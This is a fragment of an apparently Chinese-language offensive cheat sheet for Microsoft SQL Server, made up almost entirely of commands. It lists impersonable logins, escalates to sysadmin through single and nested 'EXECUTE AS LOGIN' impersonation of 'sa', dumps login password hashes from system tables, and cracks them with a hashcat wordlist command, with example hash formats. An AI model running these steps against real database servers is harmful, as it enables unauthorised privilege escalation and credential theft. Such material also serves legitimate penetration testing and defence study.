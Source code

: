 ```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```

### 利用身份冒充

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### 利用嵌套身份冒充

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```

### MSSQL账户和哈希值

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (需要转换为十六进制以在MSSQL错误消息/某些版本的查询分析器中返回哈希值。)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

然后使用Hashcat破解密码：`hashcat -m 1731 -a 0 mssql_hashes_hashcat.txt /usr/share/wordlists/rockyou.txt --force`

```ps1
131	MSSQL (2000)	0x0100270256050000000000000000
```

```ps1
131	MSSQL (2000)	0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578
132	MSSQL (2005)	0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe
1731	MSSQL (2012, 2014)	0x02000102030434ea1b17802fd95ea6316bd61d2c94622ca3812793e8fb1672487b5c904a45a31b2ab4a78890d563d2fcf5663e46fe797d71550494be50cf4915d3f4d55ec375
```
